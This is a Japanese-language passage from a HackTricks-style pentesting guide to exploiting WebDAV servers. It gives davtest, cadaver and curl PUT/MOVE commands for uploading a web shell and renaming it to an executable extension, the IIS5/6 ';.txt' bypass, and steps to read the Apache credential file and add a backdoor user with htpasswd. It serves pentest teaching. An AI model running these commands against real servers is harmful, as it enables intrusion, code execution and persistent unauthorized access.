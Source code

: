 # WebDav

{{#include ../../banners/hacktricks-training.md}}

**WebDav**が有効な**HTTPサーバー**を扱う際、正しい**認証情報**があれば**ファイルを操作**することが可能です。通常、これは**HTTP Basic Authentication**を通じて確認されます。このようなサーバーを制御するには、しばしば**ウェブシェルのアップロードと実行**が関与します。

WebDavサーバーへのアクセスには通常、**有効な認証情報**が必要であり、[**WebDavブルートフォース**](../../generic-hacking/brute-force.md#http-basic-auth)はそれを取得する一般的な方法です。

ファイルアップロードに対する制限、特にサーバーサイドスクリプトの実行を防ぐ制限を克服するために、次のことができます：

- 制限がない場合、**実行可能な拡張子**を持つファイルを直接**アップロード**する。
- アップロードした非実行可能ファイル（.txtなど）の名前を実行可能な拡張子に**変更**する。
- アップロードした非実行可能ファイルを**コピー**し、その拡張子を実行可能なものに変更する。

## DavTest

**Davtest**は**異なる拡張子を持ついくつかのファイルをアップロードし**、その拡張子が**実行されるかどうかを確認**します：
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../images/image (851).png>)

これは、**.txt**および**.html拡張子が実行されている**ことを意味するわけではありません。これは、**これらのファイルにアクセスできる**ことを意味します。

## Cadaver

このツールを使用して、**WebDav**サーバーに**手動で**接続し、アクション（**アップロード**、**移動**、または**削除**など）を実行できます。
```
cadaver <IP>
```
## PUT リクエスト
```
curl -T 'shell.txt' 'http://$ip'
```
## MOVE リクエスト
```bash
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
## IIS5/6 WebDavの脆弱性

この脆弱性は非常に興味深いです。**WebDav**は**.asp**拡張子のファイルを**アップロード**または**名前変更**することを**許可しません**。しかし、名前の末尾に**";.txt"**を追加することで**バイパス**することができ、そのファイルはあたかも .asp ファイルのように**実行**されます（**".txt"の代わりに".html"を使用することもできますが、**「;」を忘れないでください**）。

その後、あなたはシェルを**".txt"ファイル**として**アップロード**し、それを**".asp;.txt"**ファイルに**コピー/移動**することができます。そのファイルにウェブサーバーを通じてアクセスすると、それは**実行**されます（cadaverは移動アクションが機能しなかったと言いますが、実際には機能しました）。

![](<../../images/image (1092).png>)

## 資格情報の後処理

WebdavがApacheサーバーを使用している場合、Apacheで構成されたサイトを確認する必要があります。一般的に:\
\_**/etc/apache2/sites-enabled/000-default**_

その中に次のようなものが見つかるかもしれません:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
ご覧のとおり、**webdav** サーバーの有効な **credentials** が含まれているファイルがあります:
```
/etc/apache2/users.password
```
このタイプのファイルの中には、**username** と **hash** のパスワードが含まれています。これらは、webdav サーバーがユーザーを認証するために使用している資格情報です。

これらを **crack** するか、何らかの理由で **webdav** サーバーに **access** したい場合は、**add more** を試みることができます。
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
新しい資格情報が機能しているか確認するには、次のことを行うことができます：
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## 参考文献

- [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{{#include ../../banners/hacktricks-training.md}}
